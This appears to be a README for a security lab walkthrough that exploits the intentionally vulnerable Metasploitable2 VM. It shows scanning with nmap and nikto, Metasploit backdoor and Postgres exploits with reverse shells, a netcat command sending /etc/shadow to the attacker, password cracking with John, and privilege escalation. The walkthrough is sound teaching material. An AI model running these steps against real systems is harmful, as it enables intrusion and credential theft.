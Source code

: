 # SoftwareSec-Metasploitable2

## Overview

Attempt to get a shell onto a remote system (Metasploitable2) and extract its password and shadow files for password cracking. Using SSH to verify results.

## Set Ups

#### Virtual Box

Set up a local nat network

File > Preferences > Network > add Nat Network

#### Kali

Settings > Network > Attach to > Nat Network

update: ```$apt-get clean && apt-get update && apt-get upgrade -y && apt-get dist-upgrade -y```

#### Metasploitable

Settings > Network > Attach to > Nat Network

username: msfadmin

password: msfadmin

## Procedure

### Network discovery

Finding your own IP

```$ifconfig```

Discovering other IPs on your network

```$nmap -sP 10.0.2.0/24```

After finding target on network, run ```nmap``` for ports and services discover

```$nmap <Target IP>```

Notice that there is an HTTP server running, use ```nikto``` to find vulnerabilities. Default port is 80

```nikto -h <Target IP>```

```nikto``` returns a list of vulnerabilities for the server. Google these vulnerabilities and their potention exploits

Running Metasploit frameworks. Either use the fast access side bar in Kali or Applications > 08 - Exploitation > Metasploit Frameworks.

The first time starting metasploit will take a little bit as it needs to initialize a database.  

### Finding Exploits 

Notice that there is an IRC service running on port 6667 during our nmap port scan. 

(https://www.cvedetails.com/cve/cve-2010-2075)

(https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor)

There is a backdoor exploit we can use. To search for a unix irc exploit. 

```search type:exploit platform:unix irc```

returns ```exploit/unix/irc/unreal_ircd_3281_backdoor```

To use the exploit:

```use exploit/unix/irc/unreal_ircd_3281_backdoor```

Set the target host:

```set RHOST <Target IP>```

Show available payloads

```show payloads```

There is a reverse tcp payload. We can learn more about it with 

```info cmd/unix/reverse```

To use the payload

```set payload cmd/unix/reverse```

We need to set some options such as LHOST

```show options```

```set LHOST <Local IP>```

Run the exploit

```exploit```

We now have a shell on the remote system. We can check that we're root with ```whoami```. We can also check our IP with ```ifconfig```. What we really want are the password hashes in the shadow file located in /etc/shadow.

```cd /etc/```

We will just ```netcat``` to transfer the file to our local machine from the stolen shell.

On local machine

```nc -lp 1234 > shadow```

On shell

```cat shadow | nc <Local IP> 1234```

We can now crack those passwords with john the ripper. Simply copy the shadow file into a hash.txt

```cp shadow hash.txt```

Run john

```john hash.txt```

We can also run john with its many built in wordlists.

```john -wordlist=/usr/share/wordlists/rockyou.txt hash.txt```

Once the process is done, we can check our cracked passwords

```john -show hast.txt```

We should now have credentials for users on the remote machine. We can verify our passwords are correct using SSH

```ssh username@<TargetIP>```

Extra: Meterpreter - For Stealth, Flexibility, and Reliablity. ```help``` command

Postgress exploit

(https://www.cvedetails.com/cve/cve-2007-3280)

(https://www.rapid7.com/db/modules/exploit/linux/postgres/postgres_payload)

```use exploit/linux/postgres/postgres_payload```

```show options```

```set payload linux/x86/meterpreter/reverse_tcp```

```set LHOST <Local IP>```

```set RHOST <Target IP>```

```set PASSWORD postgres```

```exploit```

We have a meterpreter as the postgres user. But we can elevate our priviledge to root

```meterpreter> background``` Note the session ID

```use exploit/linux/local/udev_netlink```

```show options```

```set SESSION <ID of meterpreter>```

```exploit```

We now have root privildege with Meterpreter.

### Sources

#### Downloads

https://www.virtualbox.org/

https://www.kali.org/

https://metasploit.help.rapid7.com/docs/metasploitable-2

#### References

https://metasploit.help.rapid7.com/v1/docs/exploitation

https://metasploit.help.rapid7.com/docs/metasploitable-2-exploitability-guide

https://docs.kali.org/general-use/starting-metasploit-framework-in-kali

https://tools.kali.org/information-gathering/nmap

https://tools.kali.org/information-gathering/nikto

https://tools.kali.org/password-attacks/john
